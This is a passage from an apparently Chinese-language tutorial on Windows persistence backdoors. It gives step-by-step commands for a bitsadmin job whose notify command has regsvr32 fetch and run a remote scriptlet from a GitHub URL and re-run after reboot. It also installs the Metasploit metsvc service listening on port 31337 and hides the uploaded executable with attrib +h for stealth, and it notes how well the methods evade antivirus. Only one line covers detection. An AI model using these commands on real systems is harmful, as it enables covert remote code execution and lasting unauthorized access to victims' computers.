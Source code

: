 当存在 User32.dll 调用的时候，指定的 dll 文件就会被加载

### 0x06 bitsadmin后门

Bitsadmin 从 win7 之后操作系统就默认包含，可以用来创建上传或者下载任务。 Bistadmin 可以指定下载成功之后要进行什么命令。后门就是利用的下载成功之后进行命令执行。

```
Copy`#创建一个下载任务：
bitsadmin /create backdoor

#添加文档：
bitsadmin /addfile backdoor c:\windows\system32\calc.exe c:\Users\qiyou\Desktop\calc.exe  //为了方便起见我们直接复制本地文件

#设置下载成功之后要执行的命令：
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"

#执行任务：
bitsadmin /Resume backdoor` 
```

重启电脑之后任务会再一次被激活，大概几分钟之后我们的命令会再次执行，如果我们想让任务完成，可以执行:

```
Copy`bitsadmin /complete backdoor` 
```

优点：系统自带无需上传  
缺点：免杀效果一般  
排查：bitsadmin /list /verbose

### 0x07 自启动服务

自启动服务一般是在电脑启动后在后台加载指定的服务程序，我们可以将 exe 文件注册为服务，也可以将 dll 文件注册为服务

为了方便起见我们可以直接用Metasploit来注册一个服务:

```
Copy`meterpreter > run metsvc -A` 
```

运行之后 msf 会在 %TMP% 目录下创建一个随机名称的文件夹，然后在该文件夹里面生成三个文件：metsvc.dll、metsvc-server.exe、metsvc.exe

[![](http://www.0-sec.org/%E5%AE%89%E5%85%A8%E6%8A%80%E6%9C%AF/Windows%E5%90%8E%E9%97%A8/img/11.png)](http://www.0-sec.org/%E5%AE%89%E5%85%A8%E6%8A%80%E6%9C%AF/Windows%E5%90%8E%E9%97%A8/img/11.png)

同时会新建一个服务，其显示名称为 Meterpreter ，服务名称为 metsvc ，启动类型为"自动"，默认绑定在31337端口。

如果想删除服务，可以执行:

```
Copy`meterpreter > run metsvc -r` 
```

于此同时，我们通过msf上传上去的 exe，为了更加隐蔽，我们可以将 exe 设置为隐藏文件，利用如下命令：

```
Copy`#增加隐藏属性
attrib +h service.exe

#去掉隐藏属性
attrib -h service.exe` 
```

